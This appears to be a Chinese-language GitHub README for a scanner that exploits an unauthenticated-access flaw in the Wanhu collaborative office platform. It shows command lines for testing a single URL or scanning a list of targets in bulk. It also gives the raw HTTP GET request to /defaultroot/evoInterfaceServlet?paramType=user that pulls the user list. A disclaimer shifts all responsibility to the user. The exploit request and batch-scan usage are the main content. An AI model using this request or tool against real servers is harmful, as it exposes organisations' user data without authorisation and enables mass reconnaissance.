


# 万户协同办公平台未授权访问

万户协同办公平台evoInterfaceServlet存在未授权访问漏洞，可获取userlist敏感信息。


## 工具利用

python3 Wanhu_userlist_scan.py -u http://127.0.0.1:1111 单个url测试

python3 Wanhu_userlist_scan.py -f url.txt 批量检测



```
GET /defaultroot/evoInterfaceServlet?paramType=user HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.3096.130 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close

```



## 免责声明

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。
